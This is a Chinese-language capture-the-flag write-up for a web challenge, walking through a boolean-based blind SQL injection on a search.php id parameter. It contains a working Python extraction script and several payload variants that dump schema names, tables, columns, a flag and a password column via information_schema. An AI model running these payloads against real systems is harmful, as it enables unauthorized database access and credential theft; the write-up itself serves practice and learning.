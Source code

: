 ![[Pasted image 20221214145735.png|400]]

---
首页长这样

![[Pasted image 20221214145759.png|700]]

`flag`是不可能白送的，这辈子都是不可能白送的.jpg

点击数字之后访问
```php
/search.php?id=xxx
```
对于无效数字，响应是

![[Pasted image 20221214145910.png]]

使用布尔盲注来获取数据库信息
```python
import requests
import time
import sys

url = "http://xxx.node4.buuoj.cn:81/search.php"

fmt = '0^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)'
false_re = 'ERROR'

for i in range(1, 200):
    l = 0
    r = 127
    while l < r:
        mid = (l + r) // 2
        payload = fmt % (i, mid)
        params = {'id': payload}
        response = requests.get(url, params)
        time.sleep(0.2)
        if response.text.find(false_re) >= 0: # mid >= ans
            r = mid
        else: # mid < ans
            l = mid + 1
    print(chr(l), end='')
    sys.stdout.flush()

```
`buuoj`这个429好严QAQ

![[Pasted image 20221214150250.png]]

修改`fmt`来爆`geek`数据库的表
```python
fmt = '0^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=\'geek\')),%d,1))>%d)'
```
![[Pasted image 20221214150608.png]]

再次修改`fmt`来获取两张表的列
```python
fmt = '0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name=\'F1naI1y\')),%d,1))>%d)'
fmt = '0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name=\'Flaaaaag\')),%d,1))>%d)'
```
![[Pasted image 20221214150759.png]]

![[Pasted image 20221214150844.png]]

胜利近在咫尺
```python
fmt = '0^(ord(substr((select(group_concat(fl4gawsl))from(geek.Flaaaaag)),%d,1))>%d)'
```

![[Pasted image 20221214151723.png]]

![[Pasted image 20221214151710.png|700]]

谢谢有被出题人问候到

被骗了，这个表存的好像是问候语
```python
fmt = '0^(ord(substr((select(group_concat(password))from(geek.F1naI1y)),%d,1))>%d)'
```

![[Pasted image 20221214152922.png]]

出离愤怒😡

![[Pasted image 20221214153534.png]]

#Web #SQL注入 #布尔盲注 